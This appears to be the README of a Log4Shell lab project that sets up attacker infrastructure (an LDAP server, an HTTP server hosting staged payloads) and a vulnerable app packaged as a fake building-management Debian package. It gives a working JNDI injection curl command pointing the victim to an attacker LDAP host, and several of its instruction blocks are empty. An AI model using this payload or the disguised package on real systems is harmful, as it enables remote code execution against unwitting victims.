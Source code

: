 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-1          # fake building management server/app source
    ├── buildingmgmt.1.0-1.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

1. Download and install the vulnerable web app.
```bash
wget -O /tmp/buildingmgmt.deb 
apt install /tmp/buildingmgmt.deb
```

## Attacker

## Development

### Victim

1. clone the source repo onto the attacker VM.

```

```

2. Build and run the docker containers.

```
```

3. Launch the exploit.

```
VICTIM=<The victim accessible IP or domain name accessible by the attacker>
VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
LDAP_PORT=1389
STAGE2_JAVA_CLASS_NAME=Plugin
curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
```

### Build .deb package

```bash
victim % make build
cd log4shell-vulnerable-app; gradle bootJar --no-daemon
To honour the JVM settings for this build a single-use Daemon process will be forked. See https://docs.gradle.org/7.4.1/userguide/gradle_daemon.html#sec:disabling_the_daemon.
Daemon will be stopped at the end of the build 

BUILD SUCCESSFUL in 4s
4 actionable tasks: 4 up-to-date
cp log4shell-vulnerable-app/build/libs/*.jar buildingmgmt.1.0-1/opt/buildingmgmt/building-management.jar
dpkg-deb --build buildingmgmt.1.0-1
dpkg-deb: building package 'buildingmgmt' in 'buildingmgmt.1.0-1.deb'.
```

### Transfer to the victim and install

```bash
apt install buildingmgmt.*.deb
```